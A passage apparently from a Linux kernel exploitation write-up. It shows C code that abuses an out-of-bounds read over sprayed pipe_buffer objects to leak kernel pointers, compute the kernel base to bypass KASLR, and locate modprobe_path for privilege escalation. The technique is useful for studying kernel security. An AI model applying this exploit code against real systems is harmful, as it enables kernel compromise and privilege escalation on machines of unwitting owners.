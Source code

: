 ![Heap layout after spraying `with pipe_buffer` objects.](/images/heap_layout.png)

We now have to read 0x418 bytes to leak `pipe_buffer.ops` and break KASLR.

```c
// read A and leak pipe_buffer.ops
memset(buf, 0, BUF_SIZE);
n = read(fd, buf, 0x400 + 0x30);
if (-1 == n) {
    err("read");
}
//hex_view(buf, n);

leak = *(unsigned long long *)(buf + 0x400 + 0x10);
kbase = leak - (0xffffffffa8210840 - 0xffffffffa7a00000);
modprobe_path = kbase + (0xffffffff89251a00 - 0xffffffff88800000);

printf("[+] pipe_buffer.ops = %p\n", leak);
printf("[+] kbase = %p\n", kbase);
printf("[+] modprobe_path @ %p\n", modprobe_path);
```